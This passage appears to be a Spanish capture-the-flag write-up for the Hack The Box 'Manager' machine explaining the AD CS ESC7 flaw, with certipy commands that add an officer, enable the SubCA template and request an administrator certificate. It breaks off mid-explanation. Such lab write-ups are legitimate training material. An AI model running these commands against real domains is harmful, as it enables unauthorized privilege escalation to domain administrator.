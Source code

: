_certipy find_

> La vulnerabilidad ESC7 se produce cuando un usuario tiene el derecho de acceso Manage CA o Manage Certificates en una CA, por lo tanto, puede emitir o rechazar solicitudes de certificados pendientes.  
{: .prompt-info }
> Entonces se puede realizar una solicitud de certificado para un usuario de altos privilegios y aprobar dicha solicitud, logrando así escalar privilegios.  
{: .prompt-tip }


### Explotación de la vulnerabilidad ESC7
En el artículo [**Certipy 2.0: BloodHound, New Escalations, Shadow Credentials, Golden Certificates, and more!**](https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6), nos enseñan como explotar la vulnerabilidad ESC7.  
Primeramente debemos de agregar a nuestro usuario como `Manage Certificates`, para ello, debemos de usar la opción `ca` y `add-officer` de la herramienta certipy.  
```bash
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -u raven@manager.htb -p '**********************' -dc-ip 10.10.11.236
```
> Donde:  
	 -add-officer -> sirve para añadir un nuevo usuario como `Manage Certificates`.  
	 -ca -> específica el Certificate Authorities(CA).  
	 -u -> específica el usuario seguido de @ y luego el dominio.  
	 -p -> específica el password.  
	 -dc-ip -> específica la ip de la máquina víctima.     
{: .prompt-info }

Se añadió al usuario raven como Manage Certificates.  
![Desktop View](/writeup-htb-manager/officer.png)
_Add officer_
Ahora listamos los templates actuales del CA.  
```bash
certipy-ad ca -ca 'manager-DC01-CA' -list-templates -u raven@manager.htb -p '**********************' -dc-ip 10.10.11.236
```
> Donde:  
	 -list-templates -> sirve para listar los templates actuales.  
	 -ca -> específica el Certificate Authorities(CA).  
	 -u -> específica el usuario seguido de @ y luego el dominio.  
	 -p -> específica el password.  
	 -dc-ip -> específica la ip de la máquina víctima.    
{: .prompt-info }
Se listan los templates que se encuentran habilitados, donde se encuentra el template `SubCA`.  
![Desktop View](/writeup-htb-manager/list template.png)
_List templates_

> NOTA: En el caso que el template `SubCA` no este habilitado, se debe de habilitar con el siguiente comando.  


```bash
certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -u raven@manager.htb -p '**********************' -dc-ip 10.10.11.236
```
Una vez tengamos el template SubCA habilitado procedemos a realizar una solicitud de certificado, para ello se usa la opción `req`de certipy.  
```bash
certipy-ad req -u 'raven@manager.htb' -p '**********************' -ca 'manager-DC01-CA' -target 10.10.11.236 -template SubCA -upn 'administrator@manager.htb'
```
> Donde:  
	 -target -> específica ip de la máquina víctima.  
	 -ca -> específica Certificate Authorities(CA).  
	 -u -> específica el usuario seguido de @ y luego el dominio.  
